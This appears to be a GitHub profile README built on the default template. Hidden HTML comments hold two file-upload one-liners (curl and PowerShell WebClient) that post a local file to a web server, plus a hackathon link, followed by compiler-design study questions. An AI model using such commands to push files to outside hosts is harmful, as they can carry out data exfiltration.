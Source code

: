 - 👋 Hi, I’m @Wesley-blackops  <!------ curl -F "uploadedfile=@/path/to/my/file" http://mywebserver.com/uploads.php -->
- 👀 I’m interested in ...   <!---- (System.Net.Webclient).UploadFile('http://localhost/up.php', 'file.txt') --->
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Cybersec hackathon
https://www.isacindia.org/cit-hackathon/
Wesley-blackops/Wesley-blackops is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

define compiler design with construction tools
what are the formats of target code in compiler design
what is the function of lexical analyzer
define left recursion and left factoring 
what are the error recovery strategies 
define dfa and nfa 
define token patterns and leaemes 

different between ambiguous and nonambiguous grammer 
define phrase level error parsing 
write cfg
